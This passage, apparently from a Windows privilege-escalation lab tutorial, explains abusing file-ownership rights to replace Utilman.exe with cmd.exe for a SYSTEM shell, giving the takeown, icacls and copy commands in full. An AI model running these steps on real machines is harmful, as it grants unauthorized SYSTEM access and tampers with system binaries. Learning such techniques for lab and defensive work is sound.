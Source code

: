 We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

	takeown /f C:\Windows\System32\Utilman.exe

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:

	icacls C:\Windows\System32\Utilman.exe /grant [Controlled User]:F

After this, we will replace utilman.exe with a copy of cmd.exe:

	copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe